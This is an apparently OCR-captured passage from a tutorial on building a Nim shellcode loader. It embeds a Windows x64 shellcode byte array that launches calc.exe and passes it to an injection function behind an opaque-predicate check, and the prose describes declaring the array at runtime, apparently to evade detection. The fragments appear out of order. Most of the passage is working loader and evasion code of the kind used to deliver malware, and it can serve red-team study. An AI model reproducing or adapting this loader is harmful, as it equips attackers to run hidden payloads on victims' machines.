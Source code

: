 ```Nim
0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,

0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,

0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,

0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,

0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,

0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,

0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,

0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,

0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,

0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,

0x89,0xda,0xff,0xd5,0x43,0x3a,0x5c,0x57,0x69,0x6e,0x64,0x6f,

0x77,0x73,0x5c,0x53,0x79,0x73,0x74,0x65,0x6d,0x33,0x32,0x5c,

0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00]

njkt(buf)

  

else:

echo "[-] Invalid architecture"
```



rather than declare the byte array outside of the main function, we declare it as we run the module.


```Nim
  

# Kick off the main module

when isMainModule:

if isPrimeOpaque(1013):

var buf: array[296, byte] = [

byte 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,

0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,

0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,

0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,

0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,

0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,

0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,
```